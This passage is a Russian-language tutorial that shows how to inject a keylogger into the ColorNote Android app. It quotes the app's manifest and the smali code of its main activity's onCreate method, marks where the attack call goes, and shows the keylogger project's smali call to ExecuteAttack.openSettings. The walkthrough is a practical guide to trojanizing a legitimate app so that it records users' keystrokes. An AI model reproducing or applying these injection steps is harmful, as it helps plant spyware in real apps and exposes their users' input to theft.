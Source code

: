 ```MainActivity``` - нам нужен лишь для получения smali кода вызова основного метода.
                <action android:name="android.intent.action.VIEW"/>
                <action android:name="android.intent.action.EDIT"/>
                <action android:name="android.intent.action.PICK"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <data android:mimeType="vnd.android.cursor.dir/vnd.socialnmobile.colornote.note"/>
            </intent-filter>
```

Видим нужный класс ```com.socialnmobile.colornote.activity.Main```. В нем ищем метод ```OnCreate()```. Видим промежуток между line 164 и line 172. Туда и будем внедрять вызов нашей функции.

```java
.method protected onCreate(Landroid/os/Bundle;)V
    .locals 6

    .prologue
    const v2, 0x7f0800f9

    const/4 v5, 0x0

    const/4 v4, 0x1

    .line 164
    invoke-super {p0, p1}, Lcom/socialnmobile/colornote/activity/ThemeFragmentActivity;->onCreate(Landroid/os/Bundle;)V
	
	<------------------------ //Внедряемся сюда
	
    .line 172
    invoke-virtual {p0, v4}, Lcom/socialnmobile/colornote/activity/Main;->d(I)V

    .line 173
    const v0, 0x7f0a0003
```

Мы написали кейлоггер так, чтобы было достаточно вызвать одну функцию ```openSettings()``` в классе ```ExecuteAttack```. Вызов этой функции у нас был в ```MainActivity```. Открываем smali версию этого класса.

```java
# virtual methods
.method protected onCreate(Landroid/os/Bundle;)V
    .locals 0

    .line 13
    invoke-super {p0, p1}, Landroid/app/Activity;->onCreate(Landroid/os/Bundle;)V

    const p1, 0x7f09001c

    .line 14
    invoke-virtual {p0, p1}, Lkz/c/keylogger/MainActivity;->setContentView(I)V

    .line 15
    invoke-static {p0}, Lkz/c/keylogger/ExecuteAttack;->openSettings(Landroid/content/Context;)V
	// Нужная нам строка
	
    return-void
.end method
```
